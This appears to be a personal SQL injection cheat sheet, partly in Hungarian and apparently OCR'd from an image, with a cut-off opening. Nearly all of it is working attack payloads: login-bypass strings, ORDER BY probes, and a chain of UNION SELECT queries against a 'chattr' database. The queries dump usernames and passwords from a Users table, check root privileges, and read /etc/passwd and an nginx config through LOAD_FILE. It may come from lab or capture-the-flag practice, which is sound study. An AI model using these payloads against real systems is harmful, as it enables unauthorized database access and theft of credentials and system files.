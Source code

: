 om' or id = '1')--
Ha js-el validál akkor elősször be kell írni a jó formátumot és burp-el vagy zappal kell átírni a 
Check list:
- Login screen:
	- Basic login bypass:
		- admin' or '1'='1#
		- admin'-- -
		- admin')-- -
		- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass
	- Order by:
		- ' order by 1-- -
		- ' order by 1--
	- Union select:




 q=adawd') UNION ALL SELECT NULL,NULL,NULL,@@datadir-- -&u=3

 q=adawd') UNION ALL SELECT NULL,NULL,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='chattr'-- -&u=
 
 q=adawd') UNION ALL SELECT NULL,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='Users'-- -&u=3


q=adawd') UNION ALL SELECT NULL,NULL, username, password from chattr.Users-- -&u=3
q=adawd') UNION ALL SELECT NULL,NULL,grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -&u=3


q=adawd') UNION ALL SELECT NULL,NULL,NULL,user from chattr.user-- -&u=

chattr_dbUser@localhost
LOAD_FILE("/etc/passwd")
 q=adawd') UNION ALL SELECT NULL,NULL,NULL,LOAD_FILE('/etc/nginx/sites-enabled/default')-- -&u=3